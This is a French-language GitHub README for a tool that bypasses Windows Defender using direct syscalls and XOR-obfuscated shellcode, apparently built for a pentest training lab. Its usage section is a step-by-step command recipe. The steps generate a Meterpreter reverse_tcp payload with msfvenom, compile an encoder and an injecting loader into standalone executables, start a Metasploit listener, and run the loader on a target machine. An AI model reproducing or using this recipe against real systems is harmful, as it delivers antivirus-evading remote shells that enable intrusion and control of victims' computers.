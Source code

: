 Scripts permettant de contourner la protection antivirale de Windows Defender via la technique de Direct Syscalls avec une injection de shellcode préalablement obfusqué avec un fonction XOR.



Ces derniers ont été utilisés dans un lab d'entrainement au pentest et ne sont pas prévus pour être utilisés en dehors de ce cadre.

<br /><br />
-----------------------------------------------------
<br />

<p align="center">
    Ma vidéo sur le sujet : <a href="https://youtu.be/n5r2jc2X6lc"><strong>https://youtu.be/n5r2jc2X6lc</strong></a>
  </p>

<br /><br />
-----------------------------------------------------
<br />



<h2 align="center">Bypass-AV-DirectSyscalls</h2>

  <p align="center">
    Ce projet est basé sur le dépôt Github de chvancooten :
    <br />
    <a href="https://github.com/chvancooten/OSEP-Code-Snippets"><strong>https://github.com/chvancooten/OSEP-Code-Snippets</strong></a>
  </p>
</div>

<br /><br />





### Utilisation

1. Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Créer un nouveau projet DotNet dans Visual Studio Code :
```  
dotnet new console
```
3. Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom
4. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
5. Exécuter le fichier compilé dans une invite de commande :
```
.\XorCipher.exe
```
6. Créer un second projet DotNet dans une autre instance de Visual Studio Code :
```
dotnet new console
```
7. Remplacer le contenu de Program.cs par le contenu du fichier DirectSyscalls.cs et remplacer le shellcode par celui généré avec XorCipher.exe
8. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Lancer un listener dans la console metasploit :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Exécuter le fichier DirectSyscalls.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)




-----------------------------------------------------------------------------------




<p align="center">
    Le lien de mon blog : <a href="https://lestutosdeprocessus.fr"><strong>https://lestutosdeprocessus.fr</strong></a>
    <br />
    <br />
    Le lien pour rejoindre le serveur Discord : <a href="https://discord.gg/JJNxV2h"><strong>https://discord.gg/JJNxV2h</strong></a>
</p>



 
